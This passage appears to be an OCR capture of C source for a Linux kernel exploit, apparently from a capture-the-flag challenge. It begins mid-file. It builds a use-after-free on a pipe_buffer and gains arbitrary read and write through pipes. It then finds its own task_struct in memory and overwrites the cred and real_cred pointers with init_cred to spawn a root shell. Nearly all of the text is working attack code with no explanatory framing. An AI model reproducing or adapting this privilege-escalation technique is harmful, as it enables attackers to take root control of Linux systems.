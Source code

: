 ```c
}

#define INIT_CRED 0xffffffff82c4e3b8

size_t current_pcb_page;
size_t data_buf[0x1000];

void privilege_escalation_by_task_overwrite(void)
{
    size_t  *comm_addr;

    puts("[*] Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe(vmemmap_base + i * 0x40, data_buf);
    
        comm_addr = memmem(data_buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000)) {  /* task->real_cred */
            current_pcb_page = vmemmap_base + i * 0x40;
            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%lx\n",
                   current_pcb_page);
            break;
        }
    }

    puts("[*] Starting privilege escalation by overwriting task_struct...");
    comm_addr[-2] = INIT_CRED + kernel_offset;
    comm_addr[-3] = INIT_CRED + kernel_offset;
    arbitrary_write_by_pipe(current_pcb_page, data_buf, 0x1000);
}

int main(int argc, char **argv, char **envp)
{
    bind_core(0);

    /* stage-I */
    prepare_pipe();
    init_bookshelf();
    construct_uaf_on_pipe_buffer();

    /* stage-II */
    find_uaf_pipe();
    seeking_vmemmap_base();
    privilege_escalation_by_task_overwrite();

    get_root_shell();

    return 0;
}

```